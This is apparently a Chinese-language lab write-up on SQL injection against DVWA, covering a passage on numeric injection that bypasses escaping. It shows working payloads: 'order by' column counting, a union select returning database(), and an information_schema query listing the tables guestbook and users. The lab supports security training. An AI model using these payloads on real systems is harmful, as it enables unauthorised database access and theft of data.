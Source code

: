 

### 代码分析

利用mysql_real_escape_string函数对特殊符号\x00,\n,\r,,’,”,\x1a进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入。



### 漏洞例用

#### 数字型注入

抓包慕改ID为 1 order by 1 # ，成功

![image-20220525090242063](./Lab7_SQL_Injection.assets/image-20220525090242063.png)

![image-20220822170401845](./Lab7_SQL_Injection.assets/image-20220822170401845.png)



#### 顺便看一下字段数

`1 order by 2 #` 查询成功

![image-20220822170908647](./Lab7_SQL_Injection.assets/image-20220822170908647.png)

`1 order by 3 #` 查询失败

![image-20220822170935404](./Lab7_SQL_Injection.assets/image-20220822170935404.png)



**说明表中只有两个字段**



#### 获取当前数据库

```
1 union select 1,database() #
```

![image-20220822171302081](./Lab7_SQL_Injection.assets/image-20220822171302081.png)

当前的数据库为dvwa



#### 获取数据库中的表

```
1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

![image-20220822171604960](./Lab7_SQL_Injection.assets/image-20220822171604960.png)

**发现 guestbook, users 两个表**


